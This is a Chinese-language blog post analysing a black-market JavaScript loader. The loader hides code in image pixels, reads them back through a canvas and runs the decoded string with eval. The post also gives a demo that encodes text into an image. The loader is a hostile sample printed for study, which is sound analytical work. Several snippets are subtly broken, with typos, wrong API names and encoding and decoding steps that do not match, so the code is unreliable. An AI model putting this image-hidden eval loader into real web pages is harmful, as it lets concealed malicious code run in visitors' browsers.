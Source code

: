 ```yaml
---
title: "黑产代码解密--利用canvas加载代码"
author: Neal
description: ""
tags: [canvas,前端开发,安全]
categories: [web security]
date: "2018-08-12"
---
```


前段时间获取到黑产的一些代码，不得不感叹黑产的代码是在写的是好得很，思路巧妙，环环相扣。不得不说，技术不好，黑产都做不了了。虽然分析了好多天，但是也只是一知半解。这里抽出一小部分来讲一下。二话不说，先上代码：

最初的代码是经过混淆的，代码经过整理如下：

```javascript
var createImgElement = function(urla, b) {
    var imgElement = document.createElement('img');
    var canvasEle = document.createElement('canvas');
    imgElement['crossOrigin'] = true;
    imgElement['onload'] = function() {
        canvasEle.width = this.width;
        canvasEle.height = this.height;
        var canvasContext = canvasEle.getContext('2d')
        canvasContext.drawImage(this, 0, 0, this.width, this.height);
        for (var canvasContext = canvasContext.getImageData(0, 0, this.width, this.height), 
        cancasDataLength = canvasContext.data.length, arr = [], i = 0;
            i < cancasDataLength;
            i += 4) {
            var code = canvasContext.data[i]
            var code1 = canvasContext.data[i + 1]
            var code2 = canvasContext.data[i + 2]
            canvasContext.data[i + 2].toString(16);
            1 == code1.length && (code1 = 0 + code1);
            1 == code2.length && (code2 = 0 + code2);
            0 != Number(code + code1 + code2) && arr.push(String.fromCharCode(Number(code + code1 + code2)))
        }
        window.eval(arr.join(''));
        console.log(arr.join(''))
        b && b()
    }
    imgElement.src = urla
};
```

这段代码的主要目的是通过使用一个图片的连接，将这个图片加载到 canvas 中，再利用 canvas 去获取恶意代码并执行。通过图片去隐藏信息是一种常见的做法，这段就是通过 canvas 去执行图片中隐含的恶意代码。这段还支持传入回调函数，若回调函数存在，则执行回调函数。

这里涉及到一个 canvas 和图片之间的相互转化。下面提供两个相互转化的函数：

```javascript
var canvasToImg = fucntion(image) {
    var canvas = document.createElement('canvas');
    canvas.width = image.width;
    canvas.height = image.height;
    canvas.getContext('2d').drawImage(image, width, height);
    return canvas;
}

var imgToCanvas = function(canvas) {
    var image = new Image();
    image.src = canvas.toDataUrl('image/png');
    return image;
}
```

所以黑产也是通过将恶意代码放入到图片之中，从而以后可以通过 canvas 去读取恶意代码。下面写一个小的 demo 来复现这样一个简单的过程：

```javascript
var createImgByCode = function(codeStr, width, height) {
    var imgElement = document.createElement('img');
    var canvasEle = document.createElement('canvas');
    canvasEle.width = width;
    canvasEle.height = height;
    var canvasContext = canvasEle.getContext('2d');
    var data = new Array(4 * width * height);
    for (var i = 0; i < codeStr.length; i += 4) {
        var c = codeStr[i];
        var charCode = c.charCodeAt();
        var code = 0;
        var code1 = 16;
        var code2 = charCode - code1;
        data[i] = code;
        data[i + 1] = code1;
        data[i + 2] = code2;
        data[i + 3] = 255;
    }
    data = Uint8ClampedArray.from(data);
    var imgData = new ImageData(data, width, height);
    canvasContext.putImageData(imgData, 0, 0);
    imgElement.src = canvasEle.toDataURL("image/png");
    imgElement.width = width;
    imgElement.height = height;
    imgElement.crossOrigin = ' ';
    document.querySelector("#container").appendChild(imgElement);
}

var readCodeFromImg = function() {
    var img = document.querySelector('#container img');
    var width = 20;
    var height = 20;
    var canvas = document.createElement('canvas');
    canvas.width = width;
    canvas.height = height;
    var context = canvas.getContext('2d');
    context.drawImage(img, 0, 0, width, height);
    for (var context = context.getImageData(0, 0, width, height), 
        cancasDataLength = context.data.length, arr = [], i = 0;
        i < cancasDataLength;
        i += 4) {
        var code = context.data[i];
        var code1 = context.data[i + 1];
        var code2 = context.data[i + 2];
        1 == code1.length && (code1 = 0 + code1);
        1 == code2.length && (code2 = 0 + code2);
        0 != Number(code + code1 + code2) && arr.push(String.fromCharCode(Number(code + code1 + code2)))
    }
    console.log(arr.join(''));
}

createImgByCode("14324dfjkkdf432473724afjdfshjkdfkl53453453425dlkfklsdf", 20, 20);
readCodeFromImg();
```

`createImgByCode` 函数可以将任意字符串转化为一个图片，接着通过 canvas 去加载代码。不过这里面有一个问题，就是通过`createImgByCode` 函数生成的图片是一个 base64 图片，不能够直接被加载，这个图片必须被存储为 png 格式才能够通过另一个函数去加载代码。

以上。

欢迎搜索微信号 mad_coder 或者扫描二维码关注公众号：

![9tMvlT.jpg](https://s1.ax1x.com/2018/02/17/9tMvlT.jpg)

